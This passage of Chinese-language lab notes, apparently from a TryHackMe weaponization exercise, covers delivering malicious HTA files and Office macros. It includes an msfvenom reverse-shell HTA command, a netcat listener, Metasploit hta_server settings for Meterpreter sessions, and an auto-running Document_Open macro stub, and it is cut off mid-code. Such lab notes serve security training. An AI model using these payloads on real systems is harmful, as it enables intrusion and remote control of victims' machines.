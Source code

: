     _(将代码保存为 `payload.hta`)_ _投递与执行_: 将 `payload.hta` 托管在攻击者控制的 Web 服务器上。 * `python3 -m http.server 8090` (在当前目录启动 Web 服务器监听 8090 端口) * 在目标机器上访问 `http://攻击者IP:8090/payload.hta`，然后选择运行文件。`mshta.exe` 会执行该 HTA 文件，启动 `cmd.exe`。
- **示例：反向 Shell HTA**:
    - **使用 `msfvenom` 生成**:
        
        Bash
        
        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=<攻击者IP> LPORT=443 -f hta-psh -o thm.hta
        # 生成基于 PowerShell 的 HTA 载荷 (-f hta-psh)
        ```
        
    - **设置监听**: 在攻击者机器上使用 Netcat 或 Metasploit 设置监听。
        - `nc -lvp 443` (使用 Netcat 监听 443 端口)
    - **投递与执行**: 将 `thm.hta` 投递给受害者（例如通过 Web 投递），受害者运行后，`mshta.exe` 会执行其中的 PowerShell 代码，连接回攻击者。
- **使用 Metasploit `hta_server` 模块**: Metasploit 集成了一键生成和托管恶意 HTA 的功能。
    - **步骤**:
        
        Bash
        
        ```
        msfconsole -q
        use exploit/windows/misc/hta_server
        set LHOST <攻击者IP>
        set LPORT <监听端口> # Beacon 回连端口
        set SRVHOST <攻击者IP> # HTA 文件托管服务器 IP
        set SRVPORT 8080 # HTA 文件托管端口 (默认 8080)
        set payload windows/meterpreter/reverse_tcp # 选择载荷
        exploit # 启动模块，生成 URL 并托管 HTA 文件
        ```
        
    - 目标访问 Metasploit 提供的 URL 运行 HTA 后，即可获得 Meterpreter 会话。

##### 3. Visual Basic for Applications (VBA)

- **是什么**: 微软 Office 应用程序（Word, Excel, PowerPoint 等）内置的编程语言，用于自动化任务（宏 Macros）。
- **特点**: 宏代码 (`.docm`, `.xlsm` 等文件格式) 可以访问 Windows API 和底层系统功能，使其成为强大的武器化手段。用户打开包含宏的文档并启用宏后，代码会被执行。
- **示例：Word 文档中的宏**
    - **打开 VBA 编辑器**: 在 Office 应用中，视图 -> 宏 -> 查看宏 -> 选择文档 -> 创建 (或 Alt + F11)。
    - **编写简单宏 (显示消息框)**:
        
        VBA
        
        ```
        Sub THM()
          MsgBox ("Welcome to Weaponization Room!")
        End Sub
        
        ' 在文档打开时自动执行 THM 宏
        Sub Document_Open()
          THM
        End Sub
        